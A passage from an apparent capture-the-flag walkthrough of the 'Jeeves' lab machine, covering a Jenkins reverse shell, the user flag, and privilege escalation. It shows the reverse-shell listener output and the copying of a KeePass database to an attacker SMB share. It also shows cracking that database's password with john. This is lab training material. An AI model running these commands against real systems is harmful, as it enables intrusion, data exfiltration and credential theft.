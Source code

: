 ```shell
```
And then copy the Groovy reverse shell into the Script console and press Run.
We will get a response on our nc listener, giving us a shell as the user kohsuke:
```shell
listening on [any] 8080 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.142.123] 49676
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
```
### User Flag
We can find the user.txt flag at the desktop of the user kohsuke:
```shell
type C:\Users\kohsuke\Desktop\user.txt
```
# Privilege Escalation
### Finding and moving .kdbx KeePass file with SMB Server
Enumerating the folders in the machine, we found a .kdbx KeePass file using our custom cmd search command:
```shell
# Custom cmd search command to find .db and .kdbx files
for /r C:\ %i in (*.db *.kdbx) do @echo %i

# Results
<SNIP>
C:\Users\kohsuke\Documents\CEH.kdbx
<SNIP>
```
We can set a SMB server on Kali to get the file:
```shell
# Set a SMB server on Kali
impacket-smbserver -smb2support kalishare . -username panda -password bamboo123

# Enter the following command with the Kali tun0 IP on target CLI to connect to our Kali SMB server
net use m: \\10.10.14.206\kalishare /user:panda bamboo123

# Copy the .kdbx file into Kali
copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.14.206\kalishare\CEH.kdbx
```
### Cracking and opening .kdbx KeePass file
Now we can crack and access the .kdbx KeePass file using the following commands:
```shell
# Get the hash
keepass2john CEH.kdbx > keepasshash

# Crack it with john
john --wordlist=/usr/share/wordlists/rockyou.txt keepasshash

# Examine the results
john keepasshash --show

CEH:moonshine1
```
Now we can use the password moonshine1 to open the CEH.kdbx file.
For that, we will use KeePassXC:
```shell
# Install KeePassXC
sudo apt install keepassxc
```